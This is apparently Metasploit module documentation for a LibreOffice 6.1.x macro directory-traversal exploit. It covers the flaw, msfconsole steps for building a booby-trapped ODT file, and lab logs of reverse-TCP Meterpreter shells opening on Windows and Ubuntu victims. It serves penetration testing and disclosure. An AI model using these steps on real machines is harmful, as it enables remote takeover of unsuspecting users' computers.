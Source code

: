 ## Description

  This module exploits a directory traversal vulnerability in LibreOffice `v6.1.0-6.1.2.1` that enables remote code execution.
  Note: `6.0.x` and `6.1.3.x` versions are reportedly vulnerable to the directory traversal attack, but are not exploitable by
  this module due to the lack of ability to pass arguments.

  LibreOffice comes bundled with sample macros written in Python and allows the ability to bind program events
  to them. A macro can be tied to a program event by including the script that contains the macro and the function
  name to be executed. Additionally, a directory traversal vulnerability exists in the component that references the
  Python script to be executed. This allows a program event to execute functions from Python scripts relative to the
  path of the samples macros folder. The `pydoc.py` script included with LibreOffice contains the `tempfilepager` function
  that passes arguments to `os.system`, allowing RCE.

  This module generates an ODT file with a mouse over event that when triggered, will execute arbitrary code.

## Vulnerable Application

  LibreOffice `v6.1.0-6.1.4.1`. Vulnerable versions for both Windows and Linux can be found [here](https://downloadarchive.documentfoundation.org/libreoffice/old/).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/fileformat/libreoffice_macro_exec```
  4. Do: ```set FILENAME <name>```
  5. Do: ```set LHOST <ip>```
  6. Do: ```set LPORT <port>```
  7. Do: ```run```
  8. Move the generated file to the target
  9. Open the file with a vulnerable version of LibreOffice
 10. You should get a shell.

## Scenarios

### Tested on LibreOffice 6.1.2.1 running Windows 7

  ```
  msf5 > use exploit/multi/fileformat/libreoffice_macro_exec 
  msf5 exploit(multi/fileformat/libreoffice_macro_exec) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/fileformat/libreoffice_macro_exec) > run

  [+] librefile.odt stored at /Users/space/.msf4/local/librefile.odt
  msf5 exploit(multi/fileformat/libreoffice_macro_exec) > use multi/handler
  msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] Sending stage (179779 bytes) to 192.168.37.156
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.156:49180) at 2019-04-12 15:14:04 -0500

  meterpreter > getuid
  Server username: WIN-MGMN7ND70I1\a_user
  meterpreter > sysinfo
  Computer        : WIN-MGMN7ND70I1
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 1
  Meterpreter     : x86/windows
  ```

### Tested on LibreOffice 6.1.0.1 running Ubuntu 18.04

  ```
  msf5 > use exploit/multi/fileformat/libreoffice_macro_exec
  msf5 exploit(multi/fileformat/libreoffice_macro_exec) > set target 1
  target => 1
  msf5 exploit(multi/fileformat/libreoffice_macro_exec) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/fileformat/libreoffice_macro_exec) > run

  [+] librefile.odt stored at /Users/space/.msf4/local/librefile.odt
  msf5 exploit(multi/fileformat/libreoffice_macro_exec) > use multi/handler
  msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set LHOST 192.168.37.1
  LHOST => 192.168.37.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] Sending stage (985320 bytes) to 192.168.37.174
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.174:39912) at 2019-04-12 14:50:08 -0500

  meterpreter > getuid
  Server username: uid=1000, gid=1000, euid=1000, egid=1000
  meterpreter > sysinfo
  Computer     : 192.168.37.174
  OS           : Ubuntu 18.04 (Linux 4.18.0-16-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```
